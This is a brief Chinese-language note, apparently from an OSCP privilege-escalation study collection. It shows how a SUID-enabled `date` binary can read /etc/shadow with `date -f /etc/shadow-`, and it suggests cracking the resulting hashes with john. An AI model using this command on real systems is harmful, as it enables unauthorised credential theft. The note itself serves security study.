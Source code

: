 # date

`date` 若具有 `s` 权限，可以被用来读取一些高权限文件的内容，例如`/etc/shadow`

使用如下命令读取`/etc/shadow` 的内容：

```
date -f /etc/shadow-
```

![date](https://github.com/Nongcloud/oscp-Learn/tree/master/Privilege-Escalation/SUID/images/suid-date.png)

然后使用`john` 对 hash 进行破解.
